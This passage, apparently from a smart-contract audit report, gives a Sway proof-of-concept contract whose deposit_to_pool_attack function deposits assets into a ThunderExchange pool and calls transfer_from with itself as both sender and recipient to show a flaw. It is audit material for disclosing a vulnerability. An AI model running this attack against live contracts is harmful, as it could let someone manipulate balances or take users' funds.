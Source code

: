 * Add the below in the `main.sw`:

```rs
contract;

use std::{
    address::Address,
    auth::*,
    call_frames::*,
    constants::*,
    context::*,
    contract_id::ContractId,
    hash::Hash,
    logging::log,
    identity::Identity,
    revert::*,
    asset::*,
    storage::storage_map::*,
};

use interfaces::{
    asset_manager_interface::*,
    pool_interface::*,
    test_user_interface::*,
    thunder_exchange_interface::{ThunderExchange},
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
};

storage {
    /// Pool contractId
    pool: Option<ContractId> = Option::None,
}

impl TestUser for Contract {
    #[storage(read, write)]
    fn initialize(pool: ContractId) {
        storage.pool.write(Option::Some(pool));
    }

    #[storage(read)]
    fn deposit_to_pool_attack(asset: AssetId, amount: u64) {
        let pool_addr = storage.pool.read().unwrap().bits();
        let pool = abi(Pool, pool_addr);
        let self_identity = Identity::ContractId(ContractId::this());

        pool.deposit{ asset_id: asset.bits(), coins: amount }();
        pool.transfer_from(self_identity, self_identity, asset, 1000);
    }
}
```

